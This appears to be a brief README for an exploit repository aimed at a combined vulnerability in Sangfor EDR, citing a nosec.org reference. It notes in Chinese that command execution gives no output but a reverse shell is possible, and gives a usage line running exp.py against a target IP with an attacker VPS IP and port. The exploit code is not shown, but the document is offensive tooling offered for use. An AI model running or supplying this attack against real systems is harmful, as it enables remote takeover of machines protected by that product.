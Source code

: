 # SANGFOR_EDR_组合漏洞

参考：

https://nosec.org/home/detail/4559.html

命令没有回显，可以反弹shell。

Example:
```shell
python exp.py https://192.168.34.33 vpsip vpsport
```

